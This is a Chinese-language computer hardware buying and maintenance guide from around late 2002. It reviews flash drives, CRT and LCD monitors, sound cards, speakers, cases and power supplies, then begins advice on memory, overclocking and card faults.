USB闪盘主要由Flash Memory、控制电路和外壳组成，外部通过USB接口与PC连接。目前USB闪盘的品牌比较多，且大部分闪盘厂商都针对用户的某项特殊需要推出了不同用途和功能的闪盘；比如加密型、随身邮、智能备份等。不过在2002年10月，闪盘界的元老级厂商朗科状告其余几家闪盘厂商侵犯其专利，而以华旗为代表的闪盘厂商也发起反击，提出了对朗科专利权的确权申请。不过这一事件目前并未影响闪盘市场，几家比较大的闪盘生产商依然在新产品的开发和推广上不遗余力。从目前的市场趋势来看，比较知名的（如朗科、鲁文、爱国者等）几家公司的产品比较齐全，如朗科双启动型优盘、鲁文易盘加密型、爱国者智能备份型等。华旗资讯在爱国者闪盘的开发上似乎更加用心，新产品层出不穷，也有几款融合了几种常用功能的全能型产品（如战斧型）。朗科虽然是国内最早开发闪盘产品的厂商之一，但其在产品的更新和研发上却显得有些迟缓。另外，由于闪盘的技术含量相对较低，因此很多厂商也都经过简单组合推出了自有品牌的闪盘产品。不过，这些厂商并没有在闪盘领域投入太多精力，因此一般他们都以价格取胜。

在移动硬盘与闪盘的取舍上，消费者应该根据自己的需要决定。

## 六、显示器篇

### (一) CRT显示器

### 1. 2002年下半年CRT市场概述

2002年下半年，LCD的众多弊病开始被用户所顾忌，因此CRT的市场出现回暖迹象。几大显示器厂商分别祭出杀手锏——降价，掀起了CRT市场的又一次大潮。

在此次降价大潮中，各大厂商分别推出了采用各自特色技术的产品，为自己的竞争力再加上一个砝码。其中，飞利浦的“显亮2”、NESO的极光特丽珑、三星的“Highlight Zone”、美格的黄金眼系统、明基的锐彩技术、CTX的“维视”技术，都成了突出产品特色的法宝。

6月22日，国内显示器市场的新锐——新特丽公司（NESO）打响了下半年显示器降价的第一枪，宣称其采用“真二代索尼特丽珑显像管”的产品全线降价，其中主流产品FD770A由1999元降至1499元，降幅高达25%。其后不到两个星期，CTX、雅美达等同属特丽珑“家族”的显示器也纷纷跳水。“珑管”品牌的全线降价，对三星、飞利浦和LG等非“珑管”品牌造成了巨大压力，飞利浦等厂商也被迫宣布降价应战。三星虽然按兵不动，但可想而知，三星的日子肯定不好过。就在价格战愈演愈烈之时，7月12日，索尼电脑周边设备本部就“目前的显示器市场竞争激烈，市场上出现的某些不良举措”发表了三点“严正声明”，称“索尼公司绝无第二代平面特丽珑产品；索尼没有和任何公司合作开发过特丽珑显像管产品；目前所有使用特丽珑显像管的厂商都是SONY公司的CRT客户。”此声明一出，对NESO等采用特丽珑管产品的厂商无疑是一个沉重的打击。三星借此声明发布之时，对NESO的显示器生产、质量和宣传手段进行了批评，甚至有些言辞过激。三星的这些言论立刻得到NESO的回应，NESO在对自己的产品进行辩解的同时，指出三星的某些言论是在诋毁NESO公司，并拟状告三星。不过，最后三星和NESO达成和解，此事件告一段落。但是由于NESO的降价确实对三星显示器的销售产生了负面影响，因此NESO和三星的暗中较劲却没有停止。首先NESO在宣传活动中率先将显示器外壳拆下，让用户鉴别其产品是否使用了SONY的特丽珑显像管；其次三星公司也在活动中拆下自己的显示器外壳，亮出显像管外面的一层金属屏蔽罩，并表示没有金属屏蔽罩的产品在显示效果和辐射方面有缺陷（NESO的显示器产品没有这个屏蔽罩）。两家厂商如此大规模的针锋相对，在显示器市场上还是首次。

### 2. 2002年下半年主流CRT技术介绍

目前市场上的纯平显示器主要采用以下几种显像管，这几种显像管在表现上各有特色。

### （1）SONY的纯平特丽珑（FD Trinitron）

SONY的FD特丽珑采用的是SONY专有的单枪三束电子枪加垂直栅条荫栅式技术，因此在屏幕上显示出来的都是栅条形状。所以，SONY纯平特丽珑显像管的色彩丰富、饱满，几何失真现象少。由于是单枪结构，SONY纯平特丽珑显像管的色彩表现力出色，色纯度和色平衡容易调节。不过为了避免画面变形，显像管采用金属线固定栅距，因此采用SONY纯平特丽珑显像管的显示器会在屏幕上发现细细的暗线，15寸产品上为一条，17寸产品上为两条，这条细细的暗线也被称为阻尼线。

### （2）三菱NF钻石珑和M2第二代钻石珑（Diamondtron）

三菱采用的是垂直栅条加新型的三枪三束结构，三菱把这种结构称为Diamondtron，即“钻石珑”。配以NX-DBF四倍动态汇聚电子枪，通过4组电子透镜对电子束进行校正，因此这种结构使电子打击荧光粉更准确，色彩更逼真。另外，由于也采用了荫栅式设计，所以三菱钻石珑的产品也有阻尼线。三菱钻石珑，对扫描和电子束控制电路的要求较低，因此生产和加工难度较小。三枪三束结构的优点在聚焦上，因此采用三菱钻石珑显像管的显示器图像清晰，文本显示优秀。但三枪结构的缺点也比较明显，在色纯度、色平衡方面如果控制不好，就会出现色偏。

M2第二代钻石珑也是基于NF荫栅式显示技术的显像管，其改进的MM电子枪技术结合NX-DBF四倍精确聚焦电路系统，在TV模式下亮度比一代（Diamond NF）高三倍，在普通电压下亮度超过LCD。第二代钻石珑彻底突破并创造了栅与栅之间垂直方向电子光束通过量的无阻挡，减少了传统荫罩技术因电子长时间撞击金属而产生的热变形，提高了穿透力，电子束可以更有效地工作，文本显示更加出色，在色彩表现力上也有一定改善。

### （3）三星IFT丹娜显像管（Dynaflat）

三星IFT丹娜显像管中的IFT（Infinite Flat Tube）是“真正平面显像管”的意思，不过这个IFT似乎有些牵强。因为三星丹娜管的外表面为平面，但内表面依然是曲面结构，根据人眼观察显示器的位置和显像管屏幕的表面玻璃折射率，最后在人眼中成像时的感觉是平的。因此，丹娜管是一款视觉纯平显像管。丹娜显像管中使用了SMART新型涂层，该涂层采用了一种特有的“超级磷光涂层”技术，在荧光屏表面涂上超细原料，只让纯色光线通过，从而在不影响亮度的前提下提高了对比度。不过由于其采用荫罩式结构，因此丹娜管在成像上与传统非纯平显像管没有什么区别，尤其于内曲的结构，使得屏幕四角图案有一些失真，且从各个角度看有些许变形，并且屏幕四边的颗粒感较重。

### （4）LG“未来窗”显像管

LG“未来窗”显像管的内外表面均做成了完全平面，实现了真正的物理纯平。LG“未来窗”显像管采用了创新的拉伸式沟状荫罩，使点距达到了目前最高的0.24mm。沟状荫罩金属板呈沟状小孔布局，罩孔较大，罩板极薄，使得采用这种显像管的平面显示器所显示的图像精确，亮度、对比度和色纯度较高。而且沟状荫罩的结构进一步提高了显示器的分辨率，缩小了显示器的点距，亮度、对比度和色彩饱和度也使效果有所改善。

在画面表现上，由于采用了沟状荫罩，因此构成像素的红黄蓝三色排列有些特殊，彼此互相平行但又不成条栅状，避免了画面的颗粒感。不过拉伸式沟状荫罩在透光度方面还有所欠缺，色彩表现力不是未来窗的强项。由于采用了内外表面完全平面的设计，有些习惯了传统显示器和视觉纯平的用户会感觉屏幕有内凹的现象。

### （5）日立纯平管、中华管等非主流纯平显像管

这些非主流纯平显像管均采用同三星丹娜管类似的荫罩式结构，外表面为纯平，内表面为曲面，为视觉纯平显像管，因此在画面表现上也与丹娜管类似。

### 3. 产品介绍

下面向大家介绍一些显示器厂商和几款比较有特色的产品，以供读者选择。

### （1）爱国者（Patriot）

在2002年下半年掀起的降价狂潮下，很多显示器厂商都对产品价格进行了调整，华旗也不例外。曾经高高在上的采用三菱钻石珑M2显像管的798FD也走进了寻常百姓家。作为华旗主推的显示器型号，798FD在外形上同爱国者的传统产品变化不大，保持了朴实的外观。798FD的栅距为0.25mm，水平扫描频率30～96KHz，垂直扫描频率50～180Hz，视频带宽203MHz，最大分辨率2048×1536@60Hz，并通过了TCO99认证。由于采用钻石珑显像管，因此798FD在显示质量上有一些三菱钻石珑显像管的天生优势与弊病。在几何失真方面，798FD做得比较出色，聚焦效果非常好，字符显示清晰锐利。不过也正是由于钻石珑显像管的这种结构，所以798FD有比较明显的色偏。但是在色彩表现力上，798FD的表现不错，没有受到较大影响。M2显像管的另一个改进是在亮度上，798FD的亮度达到了一个相当的高度，看来M2的改进的确很有效果。建议在大多数的使用中调低798FD的亮度，除非有特别需要可以再调回去。另外，798FD的价格仅为1599元，这在采用M2显像管的17寸纯平显示器中非常具有竞争力。这款显示器适合那些预算不多，对文本显示质量要求比较高的用户。

775FT是爱国者针对低端市场推出的一款产品。775FT采用日立超黑晶显像管，保持了爱国者产品的传统外观。点距为0.25mm，水平扫描频率30～72KHz，垂直扫描频率50～120Hz，视频带宽110MHz，最大分辨率1280×1024@60Hz，并通过了TCO99认证。在几何失真方面，775FT表现得中规中矩，可以满足家用的需要。在聚焦方面，775FT的表现不错，字符显示虽然达不到798FD的水准，但也足够清晰。在色彩表现力上，受限于显像管的能力和市场定位，775FT的水平一般，且有轻微的偏色现象。在亮度上，虽然775FT没有特殊的技术，达不到798FD那样的水准，但是在对比度方面，其宣称的超黑晶技术显然起到了作用。在有强光干扰的情况下，775FT的抗干扰能力较强，这也在一定程度上弥补了其亮度不足的劣势。775FT仅为1150元的价格颇具竞争力，另外，这款显示器适合对价格比较敏感，没有特殊应用的家庭用户。

### （2）优派（ViewSonic）（如图 45）

优派在17寸纯平市场的主力为P70f，它采用LG的未来窗显像管，并在此基础上增加了优派的PerfectFlat技术进行改进。P70f的外观同传统显示器相比显得很有特色，显示器的后罩及底座为全黑色，前部的显示屏面板则选用了与黑色外壳反差较大的银灰色设计，屏幕最下方的控制面板部分则以一道狭长的黑色饰边衬托出一排银灰色控制按钮，尽显优派的高贵风格。P70f的点距为0.24mm，水平扫描频率30～97KHz，垂直扫描频率50～160Hz，视频带宽235MHz，最大分辨率1920×1440@60Hz，通过了TCO99认证。在色彩表现力上，P70f非常出色，虽然仍达不到高端珑管的程度，但也可算是非珑管显示器的顶峰。P70f的色纯控制得也很好，基本没有色偏。不过在几何失真方面，P70f控制得不够出色，这对于图形设计人员来说影响较大。在亮度上，受限于未来窗显像管的技术特性，虽然超越了传统荫罩式产品，但表现也不及高端珑管显示器。

### （3）新特丽（NESO）

NESO主打17寸纯平市场的标牌产品为HD797P，其外观时尚，运用了橙色、银色等多种彩色，一改传统显示器纯白色的单调外观。HD797P采用极光特丽珑显像管，是在SONY FD Trinitron纯平显像管的基础上由NESO加入了自行研发的高亮技术后形成的产品。HD797P的栅距为0.24mm，水平扫描频率30～96KHz，垂直扫描频率50～160Hz，视频带宽203MHz，最大分辨率为1600×1200@85Hz。由于其采用了极光特丽珑显像管，因此在色彩表现力及亮度上，HD797P的表现都非常出色，没有色偏现象。在聚焦性能上，HD797P的表现中规中矩，与很多显示器一样，其中央聚焦效果好于四个边角。由于SONY特丽珑显像管采用的单枪结构，因此在聚焦电路部分的设计要求比较高，而SONY的专利技术并不交给下游显示器厂商，因此采用特丽珑显像管的显示器聚焦电路部分都是由显示器厂商自己设计的。从NESO的设计能力上看，虽然不及SONY，但是已经算很不错了。在几何失真控制方面，HD797P的表现也还可以，没有明显的几何失真。另外，HD797P还有Game、Movie和Text三种显示模式，对应不同的应用需要显得随心所欲。这款显示器从外形上看比较适合新潮的年轻人，也适合对色彩表现力要求比较高的用户。

### （4）LG

LG目前主打市场的产品为795FT Plus，它的外观同传统显示器差不多，但在控制按键上采用了独特的触感式技术，只要手指轻轻触碰就可以对显示器的各项参数进行调节，并有蜂鸣器提示，显得非常方便。LG 795 Plus的栅距为0.24mm，水平扫描频率30～96KHz，垂直扫描频率50～160Hz，视频带宽203MHz，最大分辨率1600×1200@85Hz，通过了TCO99认证。作为显像管和显示器的双料厂商，LG将未来窗显像管的优点发挥得淋漓尽致，字符显示清晰锐利，色彩通透度和表现力都非常出色。但在几何失真方面的表现不够理想，有比较明显的枕型失真。另外，原来3000元左右的LG 795FT Plus已经降到了2000元以下，作为一款高端显示器，这个价位已经非常低了。LG 795FT Plus适合那些对文本显示质量要求较高，而对几何失真不太敏感的用户。

### （5）飞利浦（Philips）

目前飞利浦在市场上唱主角的17寸纯平产品为107P，这款产品运用了新一代显亮技术，并且在外观上继承了飞利浦产品的“瘦身”形象。107P使用了三菱钻石珑显像管，栅距为0.25mm，水平扫描频率30～92KHz，垂直扫描频率50～160Hz，视频带宽234MHz，最大分辨率1920 × 1440@60Hz，通过了TCO99认证。与众多的增强显示器亮度的单纯硬件技术不同，显亮技术是硬件和软件相结合的技术，可根据用户使用环境的需求进行调整。比如用户在进行文字处理时并不需要很高的亮度，而在观看视频文件时，适当的提高亮度可以得到更好的画面质量。显亮技术可以根据用户的需求变换显示窗口的亮度，最大限度满足用户的需求。由于使用了钻石珑显像管，107P的色彩表现力在显亮技术的映衬下显得更加出色，同时也拥有相当不俗的聚焦效果。甚至在钻石珑管的弱项——色偏的控制上，107P也做得比较好，没有明显的色偏现象。不过在几何失真上，107P还有待提高，存在轻微的几何失真，并且很难调节。从整体上看，107P的表现相当优秀，值得向所有用户推荐。

另外飞利浦还有一款采用三星丹娜显像管的107F4，这款显示器同样使用了锐彩技术。107F4的点距为0.24mm，水平扫描频率30～71KHz，垂直扫描频率50～160Hz，视频带宽110MHz，最大分辨率1280 × 1024@60Hz，仅通过了MPRII认证。受限于丹娜管的结构和飞利浦对107F4的市场定位，107F4的表现没有什么突出的地方，在通透度、几何失真的控制方面都与107P有较明显的差距。在聚焦方面，虽然107F4做得还算不错，但同一些采用LG未来窗和珑管的产品相比仍有差距。不过，受益于显亮技术，107F4的色彩表现力不错，在同档次的丹娜管产品中比较突出。

## 3. CRT显示器的选购

显示器的个体差异比较大，尤其是珑管产品。在现在这种微利时代，同一品牌、同样型号的显示器产品在画面的表现上都可能千差万别，所以在购买时一定不要怕麻烦，要对显示器的各个方面进行考察，确定满足要求后才可购买。例如看看显示器有无明显色偏和聚焦不良，能否达到标称的分辨率和刷新率，屏幕上有无瑕疵。有些屏幕上有划痕和轻微的腐蚀痕迹，这可能是在运输过程中造成的。划痕和腐蚀痕迹都可能对屏幕表面的涂层造成致命损伤，有这些瑕疵的产品可能就根本达不到标称的防辐射标准了。

另外，透过显示器的外壳散热孔，可以观察到显示器内部是否有金属屏蔽罩。金属屏蔽罩可以有效阻挡外部信号对显示器内部电路的干扰。如对手机信号的屏蔽，带屏蔽罩的显示器即使将手机放在显示器边上，在手机来电时显示器屏幕也不会有任何变化，而没有屏蔽罩的显示器，屏幕会出现不规则的抖动和闪烁，并发出声响。金属屏蔽罩对于显示器内部辐射也有阻挡作用，以免长时间工作后显示器散发的辐射对人体造成伤害。不过，随着显示器价格的大幅度降低，采用屏蔽罩的显示器型号越来越少，这对于用户来说真不知是好事还是坏事。

### （二）LCD显示器

液晶显示器以体积小、功耗低、无辐射、文本显示效果好以及可视面积大等受到了许多用户的欢迎，而商家的炒作也对液晶的普及起到了不小的作用。目前在LCD显示器产品中技术保持领先的厂商为Sharp、飞利浦、三星等厂商；这同CRT的显现管格局有比较大的差别。最主要的CRT显现管厂商SONY在液晶技术上并无过人之处；因此有些商家利用SONY在CRT上的名气来推销SONY液晶显示器就显得有些可笑。

在LCD的选购上，需要重点考察如下指标。

## 1. 响应时间

由于液晶显示器在响应时间上同CRT有较大差距，因此一些低档液晶显示器在使用中有明显的拖影现象；长期使用这样的液晶显示器极易造成视觉疲劳。在3D竞速类游戏中，较高的响应时间会严重影响游戏的流畅度，这也是液晶显示器被广大用户所诟病的最重要缺陷。不过由于液晶显示器的主要优势在于文字显示，因此只要响应时间低于30ms，就不会在这类应用中感到不适。如果低于25ms，则基本可以满足所有应用的需要了。

## 2. 亮度

液晶显示器的亮度不如大多数的纯平CRT显示器，因此在欣赏DVD等影片时的显示效果不如纯平CRT显示器那么出色。一般来说，LCD的亮度在200cd/m²（流明/平方米，亮度单位）以上为佳，更高的亮度可以在动态效果的显示上有出色的表现。

## 3. 对比度

液晶显示器在色彩的表现力上同CRT显示器有着天生的差距；而对比度的高低决定了液晶显示器色彩表现力的高低，因此对色彩有较高要求的用户需要## 4. 可视角度

液晶显示器的发光方式决定了其可视角度的限制。大家一定记得某广告里销售经理收到的E-Mail内容被旁边的两位同事看到后嘲笑的镜头吧，那便是在夸耀该产品的可视角度够大。可视角度在大屏幕的液晶显示器上显得更为重要，它可以保证用户在同一个方向上看到的屏幕四边的显示质量完全一致。可视角度分为水平可视角度和垂直可视角度两种，通常情况下，水平可视角度要大于垂直可视角度。

## 5. 分辨率

在购买液晶显示器时要根据自己平时最常用的分辨率来进行选购。不过新一代的液晶显示器产品都运用了某种算法，可以全屏显示比标称低的分辨率。但是这种补偿算法是利用多个像素点来模拟一个像素点，并且低分辨率与高分辨率水平和垂直像素数目通常都不成整数倍关系，因此，在效果上要大打折扣。尤其是在液晶显示器的优势文字显示上，模拟出的效果同原始效果往往有天壤之别。不过有些液晶显示器通过一些特定技术使这种现象有所改观。目前15寸液晶显示器的最佳分辨率通常为1024×768。

另外，厂商的宣传参数中还有一个CRT显示器中比较常见的刷新率。在CRT中，刷新率高于75Hz则绝大多数人的眼睛不会感到显示器的闪烁。但是在液晶显示器中，刷新率的作用不再那么明显，通常液晶显示器的刷新率都为75Hz，不过在60Hz下的感觉与75Hz也并无不同，因此刷新率不算重点参考指标(如图46)。

## 七、音频设备篇

### (一) 2002年下半年声卡市场及产品简述

SB Live! 终于逐渐淡出市场了，这也许是2002年下半年声卡市场上最值得庆贺的事情。从1998年推出SB Live! 后，创新公司就一直站在声卡领域的巅峰。我们不否认SB Live! 是一款极为出色的产品，但是它在市场上也待得太久了。

在2002年下半年的声卡市场上，低端领域的产品似乎少了很多，这与主板芯片组集成的声音功能越来越强大有关。不过，创新的 Audigy 算是个例外，为自己的新机单独配备声卡的用户一般都选择了Audigy。而令人可喜的是，Audigy 没有像它的大哥一样霸占市场四年之久，它的继任者Audigy2已经诞生了(如图47)。同它的前任相比，Audigy2有以下四大改进(见表11)。

- ①提供对DVD-Audio的支持。
- ②支持24bit/96KHz录音功能。
- ③全面支持6.1声道。
- ④获得THX认证。

表 11 Audigy 与 Audigy2的区别

|  | Audigy | Audigy 2 |
| :--- | :--- | :--- |
| 支持声道数 | 6 (5.1) | 7 (6.1) |
| 主卡CODEC规格 | 24bit/96KHz | 24bit/192KHz |
| SNR | 100db | 106db |
| DVD音频解码 | Dolby Digital | Dolby Digital, Dolby Digital EX. 6.1 |
| THX标准 | 无 | 获得认证 |


在中档市场上，SB Live！5.1豪华版替代了数码版的位置。不过根据目前的价格来看，SB Live！的最后一款产品也即将淡出市场。其余的声音芯片似乎也只有CMI8738和FM801这两款产品能在市场上吃得开。不过这两款产品之所以能在声卡市场的夹缝中生存，不是因为其多么出色的音效，而是低廉的价格和对5.1声道的支持。

### （二）下半年音箱、耳机市场及产品简述

与波澜不惊的声卡市场相比，音箱市场还稍显活跃。在高端市场上，受益于DVD的普及，5.1音箱的销售量有了明显提高，其中一些著名厂商如漫步者、轻骑兵等均推出了几款5.1音箱产品（如图48）。在中端市场上，2.1音箱仍然占据主流，毕竟在音乐欣赏方面2.1已经足够了。其中，创新SBS2300 2.1音箱颇具性价比（如图49），230元的价格对于一款创新的2.1音箱来说还是十分超值的。目前，低端市场主要由一些小厂商的低价塑料音箱所占领。不过这里要提醒大家的是，很多塑料音箱都在外面包了一层有木制花纹的“皮”，而且形状也做得同木制音箱无异，因此在购买时要小心，不要只看了外表就认为是木制音箱。其实，用手指敲一敲音箱，通过发出的声音就可判断其使用的材料。另外，从音箱的重量上也能分辨出来。木制音箱要比塑料音箱沉得多。


最近耳机的销售势头相当不错，由于学生宿舍、办公室等公共场合使用音箱会影响别人的工作和休息，而不开声音又会影响自己电脑的使用（主要还是音乐欣赏和3D游戏），因此耳机成了必不可少的选择。对于耳机的品牌来讲，SONY和Creative的最好，不过也贵了许多。

## 八、机箱电源篇

很多人对机箱和电源的选购不太在意，但是在实际应用中，这两个配件的好坏与其他配件能否正常工作息息相关。

### （一）选购机箱

机箱是承载所有PC配件的基础，有些劣质机箱在承载主板的面上有毛刺，这样很容易因摩擦损坏主板电路，并烧毁主板和配件；而有的机箱摇摇晃晃，这种机箱则是硬盘的最大杀手。另外，随着PC整体发热量的提高，散热也成了相当重要的问题。一款散热性不好的机箱很可能对超频的成功率产生影响。

选购机箱时，要注意箱体是否平稳，钢板的厚度是否可以达到要求。越厚重的机箱钢板越能够保证机箱的坚固和稳定。另外，要检查机箱的四壁是否有毛刺，装入主板后要对插槽位置进行检查。有些机箱的插槽位置有偏差，在固定了主板的扩展卡时，会因位置关系使板卡产生扭曲或从槽中翘起，短时间内可能没有问题，但是长此以往，变形的板卡和接触不良的插槽极易引起系统的不稳定，严重时甚至会造成板卡损坏。另外，目前有些优秀的机箱为了方便用户安装，都在钢板四边进行了折边处理，避免用户在拆卸和安装时划伤手指。现在很多机箱也采用了无螺丝设计，简化了用户的安装与未来的升级。

### （二）选购电源

电源是PC正常工作的前提，一些劣质电源无法承担起系统所有配件的功率要求。在输出上，电源一些偏差也很容易导致硬盘、主板等配件的慢性损坏。好的电源在对系统供电的同时也对系统起到保护作用，不会因为外界电压的突变而影响系统的稳定。一些优秀电源的散热系统更令人称道，它们会通过增加的电源风扇加强机箱内外空气的流通，从而达到更好的散热（如图50、图51）。

在选购电源时，首先要掂掂电源的重量。优秀的电源为了保证使用中的稳定和散热性，都会额外增加零件和增大散热片，会使电源的重量增加。其次，要看看电源线是否够粗。较粗的电源线能减少线与线之间的干扰。另外，还要再看看电源的散热孔及内部结构。优质电源的电路布局严谨，元器件做工精细，散热孔面积较大，还做了防尘处理。有的高档电源还设计了智能温控系统，它可以根据电源内部的温度自动调节风扇的转速，如果电源风扇意外停止转动，温度升高，智能温控系统会马上发声报警，提醒用户尽快关机以免损坏电源和其他硬件。而劣质电源的电路布局往往比较凌乱，电容东倒西歪，散热孔随便设计，甚至为了防止用户看到内部的电路而影响散热。最后，还要看看电源的铭牌和配套说明。在铭牌上，优秀电源的厂商一般都会明确标注产品的各项性能参数以及最大输出功率，而且在产品包装内有比较详细的说明书和质保卡。而劣质电源通常不会提供说明书和质保卡，并在铭牌上故意隐瞒参数或标注根本达不到的参数。


目前绝大多数的机箱都会佩带电源，用户不必分开购买。不过如果对机箱原配电源不满意，也可以要求更换。目前比较知名的机箱和电源品牌为金和田、世纪之星(如图52)、爱国者、航嘉、百盛等。

### (三)推荐产品

- 1. 航嘉磐石电源

航嘉磐石电源共有三款:磐石255、磐石300和磐石355，最大输出功率分别为260W、300W和360W。通过电源的三重滤波电路，磐石电源可以有效地滤除纹波和杂讯，使输出到主机配件的电流非常纯净、电压非常稳定；另外，独特的设计可以有效地遏制浪涌电流对主机的伤害，在常温、230V的市电电压下冷启动时可抵抗的浪涌电流高达70A。航嘉磐石电源还具有四重保护功能，即过流、过压、过载和短路保护，在电源各路输出电流过大、输出电压过大、电源负载过重以及各路输出短路时，能迅速地关断电源。只有当这些因素被解除，远程开关至少复位1秒或关断供电10秒后，电源才能重新冷启动。自航嘉电源首家通过电源行业3C认证以后，航嘉磐石电源和其他航嘉电源一样，也添加了PFC电路，有效地提高了对电能的使用效率。航嘉电源是电源行业首家获得ISO9001:2000国际质量认证体系和首家通过3C认证的电源，是一款非常值得推荐的精品。

- 2. 散热博士

由清华华天公司打造的新品牌——“散热博士”散热器分为博士、硕士和学士三个系列。博士系列专为市面上各类最高主频的CPU散热，甚至超频也可以使用；硕士系列可为普通CPU解除发热的困扰；学士系列则可为老式的赛扬、低频的毒龙降温。与众多散热器品牌相比，散热博士选用最经济的材料，比其它品牌便宜30%～50%。要从市场上找一款20块钱以下的优质滚珠散热器恐怕不太容易，而散热博士M-511就属于这种高性价比散热器。它采用日本NSK的原装滚珠轴承，可正常使用4万小时。一体成型的优质铝合金材料，合理的风道设计，比同样重量的散热片性能大大提高；高级防火的PBT材料注塑而成的6012风扇，再加上同样材料的塑胶盖，在加大散热能力的同时并不增加噪音，并且可又减少无效风阻，增加风压的作用，是一款性价比比较高的散热风扇。（文/蓝冰）


## 将硬件维护与优化进行到底

大家常说“用电脑就是用软件”，但是所有的软件程序都是以硬件平台为基础的，没有一个稳定的硬件作为后台支撑，再好的操作系统和应用程序也只能是空中楼阁。那么在使用计算机的过程中，如果硬件发生故障怎么办？怎样正确地对电脑进行保养维护？又怎样来挖掘硬件的潜能，让它运行的更快更稳定呢？下面，我们就针对这些问题，向大家介绍一些电脑硬件维护与优化方面的知识。

### 一、电脑硬件的常见故障隐患及其防范

看见这个标题后你也许会问，我的电脑运行程序非常稳定，平时注意清洁维护，使用过程中也没有随意插拔硬件，那应该不会有什么故障隐患了吧？其实不然，即使你刚刚购买了一台全新的计算机，在使用了一段时间之后也有可能会出现这样那样的问题。正所谓“未雨绸缪”，其实只要懂得一些硬件维护的相关知识，我们就能把这些故障扼杀在摇篮中。

### （一）内存的故障隐患

如今内存条价格比前几年便宜了很多，于是很多朋友都为计算机扩充内存条来让程序运行的更快，但是，扩充内存条之后，也有可能给我们带来以下一些意想不到的麻烦。

- 1. 无法正常开机

这种问题主要有两个解决的途径。
(1)更换内存的位置，这是最为简单和最为常用的一种方法，一般是把低速的老内存插在靠前的位置 (BANK1插槽)上。
(2)在能开机的前提下，进入BIOS设置，将与内存有关的设置项依照低速内存的规格设置。比如使用其中的一根内存(如果是PC100和PC133的内存混合使用，最好使用PC100的内存)，将计算机启动，进入BIOS设置，将内存的工作频率设置为PC100，反应时间调整为CAS=3，以老内存可以稳定运行为准，之后关机插入第二根内存。

- 2. 计算机运行不稳定

这类问题的出现主要是内存兼容性造成的，解决的方法与无法正常开机大致相同。
(1)更换内存的位置。
(2)在BIOS中关闭内存由SPD自动配置的选项，改为手动配置。
(3)如果主板带有I/O电压调节功能，可将电压适当调高来加强内存的稳定性。

- 3. 系统检测不到内存条

这种情况在扩充 SDRAM 内存条时候经常遇到，比如机器中现有内存条是128MB，后来又购置了一条128MB的内存条，但是系统开机时只能检测到128MB，可是只使用一根内存条都能够正确检测出其容量。
出现这种问题最可能的一个原因就是主板存在最大内存容量支持。比较老的主板的内存限制是256MB或者512MB，128MB是比较低档的主板的内存容量限制，这时只能更换主板了。另外一个主要原因就是内存条插槽顺序，需要分别尝试将两根内存条轮换插在 DIMM1 插槽中，然后将另外一根内存条插在 DIMM2插槽中，通常能够解决问题。

- 4. 烧毁内存条

有些计算机主板同时支持EDO和 SDRAM 内存条，如果原先计算机使用的是EDO内存条，但是新添加的是SDRAM内存条，那么在使用的时候会由于内存电压不一致而造成内存条烧毁。因此建议对于这种类型的主板不要混用内存条，最好采用同一规格的内存条。

总之，在添加内存条的时候最好选用同一品牌、同一型号的内存条，这样可以避免内存条之间的冲突，保证系统的正常运行和稳定。如果无法找到相同的内存条，则建议选购 KingMax 之类的知名品牌的内存，它们的兼容性一般比较好，出现问题的机率也要低一些。如果比较注重价格可以购买一般内存，但要尽量选择宽PCB板的内存，这种内存的排阻并非像窄条那样是在PCB板内的，所以从稳定性和兼容性上来说要好一些。

### （二）超频导致的故障隐患

超频对于很多穷玩家来说是提升计算机性能的不二法宝，但超频带来的诸多隐患也会让你头痛不已。

- 1. CPU烧毁

为了超频，我们通常会提高电压，这样一来CPU会产生较高的热量，如果散热不好将会使CPU温度升高，从而引发电迁移现象，其实升高的温度并不会直接伤害CPU，而是热所导致的电子迁移在损坏CPU内部的芯片。此时CPU内部的电子流动带给上面的金属原子能量，使得金属原子脱离金属表面四处流动，结果就导致金属表面上形成坑洞并造成永久的损害。虽然这是一个缓慢的过程，可是一旦发生情况就会越来越严重，到最后就会造成整个电路短路，CPU也就报销了。

由于高温有助于电子迁移的发生，所以为了防止电子迁移的发生，必须把CPU的表面温度控制在50摄氏度以下，这样CPU的内部温度就可以维持在80摄氏度以下，电子迁移现象就不会发生。如果你的CPU持续在非常高的温度下工作，那将会大大缩短了它的使用寿命。

- 2. 系统不稳定

由于计算机的各个部件都有一个频率速度的问题，而且它们的工作速度都有特定的限制，如果超频过多使得部件的工作速度超过了限制，就会造成传输信号变得模糊，部分组件无法正确识别和处理而引起传输故障。这其中内存和硬盘所受到的影响最大，它们主要用于信息记录，对于环境的温度比较敏感，当温度超过一定范围时，将有可能造成内存与硬盘中数据丢失，这时程序运行错误，或者出现死机现象。

- 3. 部件损坏

在CPU超频的时候，往往会提高核心电压，此时会相应导致机箱内温度增高，从而造成电阻、电容、电感等部件的参数都随之发生变化，时间长了就会增加发生故障的概率。比如AGP显卡是直接对主存进行存取，所以AGP总线频率与系统总线频率相同，这就要求超频时显卡要有较强的超频耐受力，否则极易导致显卡烧毁。硬盘由于IDE频率和PCI频率同步，因此在使用75、83、112、124和133MHz等频率超频时，硬盘可能工作在高频率上，超频性能不佳的硬盘在这时会出现读写错误、无法启动等故障，甚至于会因为高负荷而烧坏。

针对CPU超频带来的各种硬件隐患，一方面要求我们做好机箱内散热工作，最好能够彻底根除电子迁移现象;另外一方面就是使用的板卡、硬盘、内存等部件一定要品质优良。否则即使能够超频成功，但是时间长了之后，这些隐患才会彻底暴露出来。

#### (三)板卡部件的故障隐患

对于大多数电脑使用者(特别是兼容机的使用者)而言，在使用电脑的过程中总会遇到一些形形色色的麻烦或者问题，例如，开机不正常，时亮时不亮、刚刚买回来的声卡没有声音，机器运行过程中总会莫名其妙的死机，或者运行程序的速度特别慢，等等，而在采购电脑时都没有这些问题。其实，很多的故障现象在排除了软件方面原因以后，从硬件角度看，做到防患于未然是很必要的。下面与大家一起探讨哪些问题可能引起上述的故障现象以及如何预防。

- 1. 接触不良

大家知道，计算机板卡之间的接触是通过金手指与主板提供的插槽完成的，如果在长期的使用过程中金手指的铜(银)镀层因为氧化、或者灰尘覆盖都会影响他们的接触性能，并导致硬件故障。当问题出现以后，可以用清洁工具进行板卡的灰尘清除或者用橡皮擦顺着电路方向轻轻地将氧化层擦除;有的朋友电脑在安装过程中，新的板卡也会有接触不良现象发生，原因很可能是板卡之间的接触点匹配不好。例如显卡的金手指太薄而主板的AGP插槽比较宽，当显卡插入后一旦位置不准确就会导致接触不良。这种情况除了更换匹配的硬件外还需要插入板卡的时候方法正确，并尽量避免因外力而使板卡的位置产生偏移。

- 2. 兼容性和硬件间的匹配

